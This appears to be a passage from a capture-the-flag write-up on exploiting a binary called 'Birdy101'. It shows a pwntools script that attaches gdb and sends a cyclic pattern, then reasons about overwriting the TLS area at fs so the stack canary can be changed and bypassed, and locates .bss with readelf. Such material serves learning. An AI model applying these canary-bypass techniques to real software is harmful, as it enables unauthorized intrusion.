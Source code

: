 I attached a gdb instance
```python
from pwn import *

file = "./Birdy101"

elf = ELF(file)


con = process("./Birdy101")
p = gdb.attach(con, gdbscript="""
c
""")

# We still don't use it. just something that wont crash
con.send(p64(elf.symbols["got.printf"]))

# Wait for the read, gdb makes things slow or whatever
time.sleep(1)
con.send(cyclic(0x1000))

con.interactive()
```

using gdb I saw that the crash happesn at the function `__GI__pthread_disable_asynccancel` at offset `18`.
![](./_attachments/image1.png)

I added a breakpoint just before there, and i saw that the `mov rax, QWORD PTR fs:0x10` moves `faaxgaax` into the `rax` register, it looks like we somehow overwrote into the location where `fs` points to! that's amazing because the canary is stored at location `fs:0x28`.
If we could change the canary to whatever we want to, we could bypass it!

We crash on a `SIGSEGV` for location `rax+0x972`. We can control `rax` (`fs:0x10`) so let's just make it point to a writeable location (for eaxmple, `.bss`) 
```bash
$ readelf -S Birdy101 | grep .bss
  [27] .bss              NOBITS           0000000000404080  00003080
```
